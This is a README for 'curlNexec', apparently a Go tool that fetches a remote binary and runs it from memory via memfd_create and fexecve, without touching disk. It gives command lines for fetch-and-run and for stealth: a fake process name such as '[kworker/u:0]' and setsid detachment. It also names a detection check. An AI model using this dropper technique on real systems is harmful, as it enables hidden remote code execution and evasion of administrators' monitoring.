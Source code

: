 <h1 align=center> curlNexec </h1>

----
<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>
 
----

## Short story

`curlNexec` enable us to execute a remote binary on a local machine in one step

 - simple usage `curlNexec <binary_raw_url>`
 - execute binary with specified program name: `curlNexec -n /usr/sbin./sshd <binary_raw_url>`
 - detach program execution from `tty`: ` setsid curlNExec [...]` 


## Stealthiness story 

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.


### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`curlNexec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 
 2. Detach from tty to map behaviour of deamon process
 
`setsid curlNexec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```
